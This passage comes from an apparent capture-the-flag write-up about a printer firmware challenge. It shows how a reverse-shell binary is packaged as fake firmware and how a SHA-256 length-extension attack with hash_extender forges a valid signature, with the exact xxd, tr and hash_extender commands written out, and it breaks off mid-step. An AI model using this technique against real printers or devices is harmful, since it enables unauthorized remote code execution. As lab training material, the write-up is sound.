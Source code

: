 I compiled the above with `gcc ./revshell.c -o firmware.bin`

I then added the code to a zip file called `hacked.zip`:

![TEMP](img/obj7/img5.png)

At this point, I needed to get the hex value of the reverse shell. With some handy shell-fu I managed to accomplish this with a combination of `xxd` and `tr`:

`xxd -p ./hacked.zip | tr -d "\n"`

Which, for those of you following at home, took a hex dump of the entire `hacked.zip` file and removed any newline characters, making it one long string of hex characters.

I then used the output of the above command in combination with the `hash_extender` tool. Using the file I originally downloaded from the printer (that I named `orig.zip`), and the hash from that download as well (`e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23`), I ran the following:

`./hash_extender --file=../orig.zip -s e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23 -f sha256 -l 16 --append-format=hex -a <resulting hash of previous xxd output>`

The output looked like this:

![hash_extender output](img/obj7/img6.png)

Took the new string output of the above and ran it through [this cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex\('Auto'\)To_Base64\('A-Za-z0-9%2B/%3D'\)) to copy it into a base64 blob.

Took the output of that, added into the "firmware" portion of this json blob:
